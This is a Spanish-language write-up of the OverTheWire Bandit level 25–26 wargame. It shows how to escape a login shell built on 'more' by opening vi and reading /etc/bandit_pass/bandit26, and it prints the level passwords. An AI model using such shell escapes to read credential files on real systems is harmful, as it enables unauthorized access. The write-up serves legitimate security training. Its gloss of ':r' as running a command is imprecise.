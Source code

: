 ## Objetivo
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not **/bin/bash**, but something else. Find out what it is, how it works and how to break out of it.

## Datos de acceso
+ user -> bandit25
+ password -> p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d


## Solución
``` bash

bandit25@bandit:~$ 
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
bandit25@bandit:~$


Found a swap file by the name "/tmp/text.txt.swp"
          owned by: bandit26   dated: Tue Feb 21 23:09:29 2023
         file name: ~bandit26/text.txt
          modified: YES
         user name: bandit26   host name: bandit
        process ID: 101955
While opening file "text.txt"
             dated: Tue Feb 21 22:03:08 2023
  _                     _ _ _   ___   __
r: /etc/bandit_pass/bandit26
c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1
 | |                   | (_) | |__ \ / /
 | |__   __ _ _ __   __| |_| |_   ) / /_
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/
~                                                                         
~                                                                         
<etc/bandit_pass/bandit26





```
## Notas adicionales
|Comando | Descripcion |
|------------ | ------------|
|more |muestra el texto por partes y permite editar un archivo mediante vi |
|vi|editor de texto|
|:q| salir de vi|
|:r| ejecutar un comando|
|:e| editar|
|:qa!| forzar la salida|



Se juega con el tamaño de la consola para poder hacer que aparezca "more" una ves ahi con "v" entramos a vim para poder ejecutar comandos en este caso se hizo el 
"r: /etc/bandit_pass/bandit26"  para poder leer el password del usuario 26.

## Referencias